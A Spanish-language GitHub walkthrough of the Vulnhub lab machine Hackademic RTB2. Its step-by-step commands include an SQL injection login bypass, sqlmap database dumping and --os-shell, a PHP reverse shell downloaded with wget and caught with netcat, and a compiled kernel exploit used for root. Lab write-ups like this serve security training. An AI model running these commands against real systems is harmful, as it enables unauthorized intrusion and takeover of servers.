 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=3CF700FF&background=FF000000&width=500&height=80&lines=HACKADEMIC_RTB2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb2,18/

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/182723256-9616db47-6dcd-4884-a26f-0bd69b382d29.png"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con ArpScan. 
```
arp-scan --interface eth0 -l
```
![2](https://user-images.githubusercontent.com/75953873/182723636-8e6a7d2c-7280-4742-a5b3-17660bdd6a2e.png)

IP host: `192.168.25.131`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.131
```
![3](https://user-images.githubusercontent.com/75953873/182724090-b60c5b67-0dd2-4a6c-83d7-01c541c00bef.png)

Puertos abiertos: [80,666]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 80,666 -A 192.168.25.131
```
![4](https://user-images.githubusercontent.com/75953873/182724516-60843d6c-3ed8-4307-8345-7431696978a3.png)

Servidor corriendo: **HTTP Apache**

O.S: Linux (**Ubuntu**)

URL del servidor: `http://192.168.25.131`

![5](https://user-images.githubusercontent.com/75953873/182724778-d685a545-04c9-4e41-8a49-3058067bc121.png)

- *Paso 4:* Bypassear página con inyección SQL manual. 

Username: `' or 1=1--'`

Password: `' or 1=1--'`

![6](https://user-images.githubusercontent.com/75953873/182725260-0ebeb8c5-c0af-465d-b520-69816fb8b37a.png)

![7](https://user-images.githubusercontent.com/75953873/182725313-445bffd4-699b-404c-9304-80a514377bfa.png)

Al inspeccionar el código fuente, la etiqueta `<font>` contiene un texto ofuscado a hexadecimal.

![9](https://user-images.githubusercontent.com/75953873/182725970-78c8a7d8-80ea-4298-906f-7b8e9a898268.png)

```
%33%63%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%33%65%20%30%64%20%30%61%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%32%30%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%32%30%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%36%39%20%36%65%20%32%37%20%32%30%20%36%66%20%36%65%20%32%30%20%36%38%20%36%35%20%36%31%20%37%36%20%36%35%20%36%65%20%32%37%20%37%33%20%32%30%20%36%34%20%36%66%20%36%66%20%37%32%20%32%30%20%32%65%20%32%65%20%32%30%20%33%61%20%32%39%20%30%64%20%30%61%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%30%64%20%30%61%20%33%63%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%33%65%0A
```

- *Paso 5:* Decodificar mensaje de forma Online y con BurpSuite. 

**ONLINE:** https://www.online-toolz.com/langs/es/tool-es-text-hex-convertor.html

![10](https://user-images.githubusercontent.com/75953873/182726252-e5756ba4-5cf6-44ce-92a1-76971760b4d8.png)

**BURPSUITE:**

Decoder:
```
[Text] -> Decode as -> URL
[Hex] -> Decode as -> ASCII hex
[Text] -> Decode as -> Plain
```
![11](https://user-images.githubusercontent.com/75953873/182727019-7c7f2896-8299-42f1-ba58-d6e69c1d6545.png)

Decodificar cadena binaria: https://www.traductorbinario.com/
```
0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1 
```

![12](https://user-images.githubusercontent.com/75953873/182727491-9cdcf046-d840-4923-a7fd-1c5d0258a98c.png)

- *Paso 6:* Acceder al puerto 666 golpeado recursivamente los puertos `1001,1101,1011,1001` con Nmap. 
```
nmap -r -p 1001,1101,1011,1001 192.168.25.131
```
![13](https://user-images.githubusercontent.com/75953873/182728017-cd632ee0-4ae2-4f7e-8e8e-f78ee7450ebd.png)

URL con el puerto 666 abierto: `http://192.168.25.131:666`

![14](https://user-images.githubusercontent.com/75953873/182728213-b629fc94-5457-4086-b57d-f5b01b3aeb2a.png)

- *Paso 7:* Encontrar parámetro vulnerable a inyección SQL. 

Navegando en el sitio web se puede observar que la "Lista de artículos de contenido" presenta una URL crítica.

URL: 'http://192.168.25.131:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3'

Explotar base de datos con SQLmap:
```
sqlmap --url 'http://192.168.25.131:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3' --dbs --batch
```
![15](https://user-images.githubusercontent.com/75953873/182728721-92cf4596-2d56-4614-88c3-30419f27d7d7.png)

- *Paso 8:* Subir una shell a la base de datos `joomla`:
```
sqlmap --url 'http://192.168.25.131:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3' -D joomla --os-shell --batch
```
![16](https://user-images.githubusercontent.com/75953873/182729464-41340377-450f-45ff-94eb-4c9789aab291.png)

Editar la reverse shell PHP, moverla al directorio `/root` y subirla al servidor local:
```
cp /usr/share/webshells/php/php-reverse-shell.php /root
nano php-reverse-shell.php
mv php-reverse-shell.php reverseshell.php
```

**$ip:** La IP local de su máquina.

**$port:** 4444 (opcional).

![18](https://user-images.githubusercontent.com/75953873/182730094-c8c2f93f-b0a6-444f-9f84-b26f4efe6030.png)

![17](https://user-images.githubusercontent.com/75953873/182729943-7059e627-8c01-43bc-b0f6-572664c2773c.png)

Abrir servidor local con Python3:
```python
python3 -m http.server 80
```
![20](https://user-images.githubusercontent.com/75953873/182731305-a8adc335-e819-4e5c-9f1e-c388f900f595.png)

Descargar la reverse shell desde la shell obtenida en la base de datos:
```
wget http://192.168.1.9/reverseshell.php
```
![19](https://user-images.githubusercontent.com/75953873/182731485-6dd80b89-38fe-4aa6-a2c1-de63078be636.png)

- *Paso 9:* Poner a escucha conexiones con Netcat:
```
nc -lvp 4444
``` 
Acceder al sitio donde se subio la reverse shell:

URL: `http://192.168.25.131:666/reverseshell.php`

![21](https://user-images.githubusercontent.com/75953873/182731893-d0f3e803-277c-422d-b78c-fd9f8c22c66d.png)

- *Paso 10:* Identificar versión del kernel y descargar exploit:

![22](https://user-images.githubusercontent.com/75953873/182732251-c05c0ba1-7e2e-4da5-a75c-8676435d3a96.png)

```
searchsploit 2.6.3 | grep "RDS"
searchsploit -m 15285
```
![23](https://user-images.githubusercontent.com/75953873/182733308-febf508c-8e3b-42b7-ba66-9b3eb82b6494.png)

Abrir servidor local con Python3:
```python
python3 -m http.server 80
```

Descargar y compilar exploit en el directorio `/tmp`:
```
cd /tmp
wget http://192.168.1.9/15285.c
gcc 15285.c -o kernel
```
![24](https://user-images.githubusercontent.com/75953873/182735176-1cd40bee-e4d0-4956-bc1e-2e593608b292.png)

Explotar kernel:
```
./kernel
```
![26](https://user-images.githubusercontent.com/75953873/182735618-d1d80e24-f62d-4679-b2fa-1d745dfe8abf.png)

Acceder al directorio `/root` y capturar la flag:
```
cd /root
cat Key.txt
```
![25](https://user-images.githubusercontent.com/75953873/182736331-28feb398-5d2a-4cee-8d54-354df9ba9c9e.png)

Descifrar contenido del fichero con base64 y moverlo al servidor local `/var/www`:
```
base64 -d Key.txt > flag
mv flag /var/www
```
URL: `http://192.168.25.131:666/flag`

![28](https://user-images.githubusercontent.com/75953873/182736188-909c542c-55ad-46ea-962a-517ede01b93d.png)

</br>

Felicitaciones al autor <a href="https://www.vulnhub.com/author/mrpr0n,3/">mr.pr0n</a> por la excelente versión 2.0 de **Hackademic**!
